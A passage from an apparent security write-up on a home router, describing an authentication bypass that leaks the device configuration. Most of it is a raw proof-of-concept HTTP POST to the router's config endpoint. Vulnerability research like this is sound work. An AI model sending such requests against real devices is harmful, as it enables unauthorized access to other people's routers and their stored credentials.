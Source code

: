 After using the credentials we extracted we have full control of the web interface and can test out the functionalities.

## Authentication bypass via unauthenticated access to device config

So after logging-in i immediatelly went to check if the same config leaking bug exists on this router too.

![Config Management](./images/config_mgmt.png)

```
POST /getpage.gch?pid=101 HTTP/1.1
Host: 192.168.1.1
Content-Length: 137
Cache-Control: max-age=0
Origin: http://192.168.1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysQuwz2s3PjXAakFJ
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/getpage.gch?pid=1002&nextpage=manager_dev_config_t.gch
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundarysQuwz2s3PjXAakFJ
Content-Disposition: form-data; name="config"


------WebKitFormBoundarysQuwz2s3PjXAakFJ--
```
